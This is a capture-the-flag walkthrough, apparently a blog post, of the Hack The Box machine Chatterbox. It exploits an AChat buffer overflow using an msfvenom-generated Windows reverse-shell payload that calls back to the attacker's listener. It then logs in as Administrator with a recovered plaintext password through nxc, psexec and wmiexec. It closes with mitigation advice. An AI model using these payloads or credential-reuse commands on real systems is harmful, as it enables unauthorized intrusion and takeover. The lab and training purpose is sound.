 ```yaml
---
title: Chatterbox
date: 2025-04-23
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, BOF, weak-creds-privesc] 
image: chatterbox.png
media_subpath: /assets/img/posts/2025-04-23-chatterboxHTB/
---
```

## Introduction
In this walkthrough we will be solving Hack The Box Medium Windows box Chatterbox. Let’s start ..

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check first 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```
![image.png](nmap.png)

## Services

### Port 139/445

**Windows 7 Professional** 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)

```bash
smbclient -L //$IP/ -N
```

![image.png](image%202.png)

```bash
enum4linux $IP
```

**No result**

### Port 9256

**AChat chat system**

I don’t honestly know how to enumerate and how to do foot printing for this service that’s why I am gonna search for it. I found this exploit:

[Github](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/36025&ved=2ahUKEwjWx_-qgu6MAxXHxAIHHfFnKuMQFnoECCgQAQ&usg=AOvVaw2T57YwIcTiH4gJzYVC2l8o)

[https://github.com/mpgn/AChat-Reverse-TCP-Exploit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit)

## Web

### Port 9255

AChat chat system httpd

**I couldn’t access the website.**

## Exploitation

[Github](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/36025&ved=2ahUKEwjWx_-qgu6MAxXHxAIHHfFnKuMQFnoECCgQAQ&usg=AOvVaw2T57YwIcTiH4gJzYVC2l8o)

[https://github.com/mpgn/AChat-Reverse-TCP-Exploit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit)

![image.png](image%203.png)

I made a shellcode from bash script:

```bash
bash AChat_Payload.sh
```

I entered required values:

![image.png](image%204.png)

After that I changed shellcode in python exploit and changed server address to my target box address, then I run the exploit:

```bash
python AChat_Exploit.py
```

I got a connection back:

![image.png](image%205.png)

I was just losing my shell, so I decided to look at the bash script internals, I saw it is using meterpreter shell, so let’s change it to general shell.

```bash
cp AChat_Payload.sh [payload.sh](http://payload.sh/)
```

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp RHOST=$RHOST LHOST=$LHOST LPORT=$LPORT exitfunc=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

```

![image.png](image%206.png)

And I got a connection:

![image.png](image%207.png)

## Privilege Escalation

- **OSCP Checklist**
    
    https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/
    
    - [ ]  Situational Awareness 
    - [ ]  SeImpersonatePrivilege 
    - [ ]  SeBackupPrivilege 
    - [ ]  SeDebugPrivilege
    - [ ]  SeRestorePrivilege
    - [ ]  SeTakeOwnershipPrivilege 
    - [ ]  SeManageVolumePrivilege
    - [ ]  SeMachineAccountPrivilege
    - [ ]  [Full Privileges](https://itm4n.github.io/localservice-privileges/?source=post_page-----b95d3146cfe9---------------------------------------)
    - [ ]  [FullPowers](https://github.com/itm4n/FullPowers)
    - [ ]  PowerShell History(Transcription, Script Logging)
    - [ ]  Sensitive Files
    - [ ]  Insecure Service Executables
    - [ ]  binpath 
    - [ ]  DLL hijacking
    - [ ]  Unquoted Service Path
    - [ ]  Scheduled Tasks
    - [ ]  Application-based exploits
    - [ ]  [Detailed Paper about other privileges](https://github.com/hatRiot/token-priv)
    - [ ]  Kernel Exploits
    - [ ]  When you're on a Windows box make sure to check the root directory of the local drive volume, each user directory as well as their Desktop and Documents folders, the Program Files folder (usually the x86 one), as well as their PowerShell history if you want to be extra thorough. Do these before using something like winPEAS to save time if you end up finding a config file or script with credentials in it.
    
    ---
    
    [Privileged File Write EOP](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)
    

**I have done first some manual enumeration:**

![image.png](image%208.png)

**I run winPEASany.exe:**

![alfred](image%209.png)

alfred

![It is run with alfred user](image%2010.png)

It is run in the context of alfred user

![image.png](image%2011.png)

As I have found one password I am gonna try it for the Administrator user:

```bash
sudo nxc smb $IP -u Administrator -d . -p Welcome1!
```

![image.png](image%2012.png)

And it works !

Use [psexec.py](http://psexec.py)  to authenticate:

```bash
[psexec.py](http://psexec.py/) Administrator:'Welcome1!'@10.10.10.74
```

![image.png](image%2013.png)



> Note: When running winPEAS I have noticed that Alfred had `AllAccess` on Administrator folders, that’s also a sign that Alfred is administrator he is just using two accounts on the machine.
{: .prompt-warning }


Ridiculously I cannot read `root.txt` as NT Authority\System.



> The `root.txt` file could have its **NTFS permissions explicitly denying access to SYSTEM** or only allowing access to `Administrator`. This is a deliberate CTF trick to make you escalate *context*, not just privilege.
{: .prompt-info }


I am gonna try to login as Administrator explicitly using not psexec but wmiexec as psexec automatically escalates privileges to nt authority\system.

```bash
[wmiexec.py](http://wmiexec.py/) Administrator:'Welcome1!'@10.10.10.74
```

![image.png](image%2014.png)

Now we can read `root.txt`:

![image.png](image%2015.png)

## Mitigation

- **Patch Vulnerable Software**: The Achat application contains a known buffer overflow vulnerability. It should be removed or updated to a secure version. Legacy or unmaintained software should never be exposed to untrusted networks.
- **Disable Autologon**: Storing plaintext credentials in the registry (under `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`) poses a serious risk. Autologon should be disabled, and sensitive credentials should never be stored in plaintext.
- **Least Privilege Enforcement**: The user `Alfred` had administrative rights, which allowed privilege escalation. Follow the principle of least privilege by only assigning administrative rights when strictly necessary.
- **Use of Credential Guard and LSA Protection**: Enable Credential Guard and LSA Protection on Windows systems to reduce the risk of credential theft via tools like Mimikatz or winPEAS.
